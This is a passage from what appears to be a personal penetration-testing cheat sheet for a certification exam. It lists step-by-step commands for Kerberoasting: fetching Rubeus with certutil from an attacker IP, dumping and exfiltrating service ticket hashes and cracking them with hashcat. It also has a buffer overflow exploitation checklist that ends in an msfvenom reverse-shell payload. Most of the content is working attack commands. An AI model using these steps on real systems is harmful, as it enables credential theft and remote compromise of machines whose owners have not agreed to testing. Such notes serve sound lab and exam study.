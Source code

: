 ### Kerberoasting

1. Upload rubeus.exe to the client: `certutil -urlcache -f http://192.168.119.135/Rubeus.exe rubeus.exe`
2. Get service hashes: `rubeus.exe kerberoast /outfile:C:\temp\hashes.txt` (Use your own method for transfering hashes to your local machine, I decided to base64 encode them and copy/paste):
3. Encode the hashes: `certutil -encode hashes.txt hashes.b64`
4. Copy the hashes: `type hashes.b64`
5. Paste the hashes in kali. Remove new lines and don't copy the "CERTIFICATE" lines.
6. Decode the hashes in kali: `base64 -d hashes.b64 > hashes.txt`
7. Isolate the SQL hash anc crack it: `hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`

## BUFFER OVERFLOW

* [ ] Configure mona: `!mona config -set workingfolder c:\mona\%p`
* [ ] Crash the app with fuzzer
* [ ] Use pattern create to exploit `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <crashpoint+400>`
* [ ] Execute exploit and find distance: `!mona findmsp -distance <crashpoint+400>` (look for EIP contains normal pattern : ... (offset XXXX))
* [ ] Update exploit with offset variable and set retn to "BBBB"
* [ ] Run exploit again, check if EIP is 42424242 _Repeat until all bad characters are found_
  * [ ] Generate bytearray with mona: `!mona bytearray -b "\x00"`
  * [ ] Generate bytearray with python
  * [ ] Include python's bytearray in exploit.py and compare results: `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`
  * [ ] Take note of bad characters and generate new bytearray in mona and python
* [ ] Find jump points `!mona jmp -r esp -cpb "<hex-bad-chars>"`
* [ ] Update retn from exploit.py with one of the jump points written backwards (e.g. "\x01\x02\x03\x04" in Immunity is "\x04\x03\x02\x01" in exploit)
* [ ] Generate payload: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c`
* [ ] Prepend NOPs: `padding = "\x90" * 16`
* [ ] Exploit

## TROUBLESHOOTING

### Bruteforce

* [ ] Verify if adding '/' to endpoint changes something: `/admin != /admin/`

### Go Libraries

* [ ] If an exploit requires a library that you don't have, you try the following:
  * [ ] Run `go install <library>`
  * [ ] Go the website, download the library, create a folder for it in `/usr/lib/go-1.18/src/` and add the .go files to that folder (e.g. for the library `"golang.org/x/crypto/pbkdf2"` I went to `https://pkg.go.dev/golang.org/x/crypto/pbkdf2`, downloaded the .go source files, and uploaded in `/usr/lib/go-1.18/src/pbkdf2`)

### Perl Libraries
